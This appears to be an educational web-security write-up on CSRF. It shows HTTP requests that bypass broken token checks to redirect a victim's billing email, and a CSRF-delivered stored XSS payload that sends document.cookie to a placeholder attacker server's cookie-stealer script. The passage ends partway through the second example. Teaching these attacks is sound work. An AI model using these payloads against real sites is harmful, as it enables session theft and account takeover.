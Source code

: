 ### Leak User Information by Using CSRF

For example, let’s say the [example.com](http://example.com/) web application sends monthly billing emails to a user-designated email address.

The request will be like that:

```jsx
POST /change_billing_email
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
email=NEW_EMAIL&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

As we can see the CSRF validation on this endpoint is broken, `THE REQUEST WILL SECCEED EVEN IF ITS REMOVED.`

```jsx
POST /change_billing_email
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
email=NEW_EMAIL&csrf_token=
```

The Attacker Could make the victim to send this request via CSRF with his E-mail instead:

```jsx
POST /change_billing_email
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
email=ATTACKER_EMAIL&csrf_token=
```

---

### Create Stored Self-XSS by Using CSRF

If we combined the Self XSS with CSRF we will get a stored XSS.

Lets say we have a website [example.com](http://example.com) and its have a subdomain called [finance.example.com](http://finance.example.com) its give the user to make a nickname for his bank account.

However, the endpoint used to change the account nicknames is vulnerable to `CSRF`  so simply omitting the token parameter in the request will `bypass CSRF protection`.
This request will fail as it have a wrong csrf token:

```jsx
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
&csrf_token=WRONG_TOKEN
```
